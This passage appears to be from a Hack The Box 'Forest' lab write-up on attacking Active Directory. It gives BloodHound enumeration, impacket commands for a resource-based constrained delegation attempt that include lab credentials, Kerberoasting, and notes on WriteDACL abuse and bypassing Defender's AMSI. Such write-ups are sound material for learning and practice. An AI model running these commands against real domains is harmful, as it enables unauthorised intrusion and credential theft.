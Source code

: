 ```bash
.\SharpHound.exe -c All --zipfilename forestAD
```

```bash
sudo neo4j start
bloodhound
```

- **RBCD**
    
    From BloodHound graph I see:
    
    We have `GenericAll` privileges over Computer, that means we can perform Resource Based Constrained Delegation attack. 
    
    But it failed in the second step with insufficient rights error:
    
    ```bash
    impacket-addcomputer -computer-name 'RBCD$' -computer-pass 'Summer2018!'  -dc-ip $IP  'htb.local/svc-alfresco:s3rvice’
    ```
    
    ![image.png](image%208.png)
    
    ```bash
    impacket-rbcd -delegate-from 'RBCD$' -delegate-to 'FOREST$' -dc-ip $IP -action 'write' 'htb.local/svc-alfresco:s3rvice’
    ```
    
    ![image.png](image%209.png)
    
- **Kerberoasting**
    
    ```bash
    GetUserSPNs.py -dc-ip $IP htb.local/svc-alfresco
    ```
    
    ![image.png](image%2010.png)
    
- **HasSession**
    
    I see from BloodHound that Administrator user has session on the computer that I am logged in that means we can try to get their credentials
    
    ![image.png](image%2011.png)
    
    But we are not an admin to run mimikatz.
    
- **WriteDACL**
    
    ![image.png](image%2012.png)
    
    As you can see from the image our user is the member of Account Operators which has generic all privileges over Exchange Windows Permissions which has WriteDACL privileges over domain.
    
    Let’s add a new user to `EXCHANGE WINDOWS PERMISSIONS` group with PowerView.ps1 before importing PowerView.ps1 it is good practice to run `Bypass-4MSI` to evade defender.
    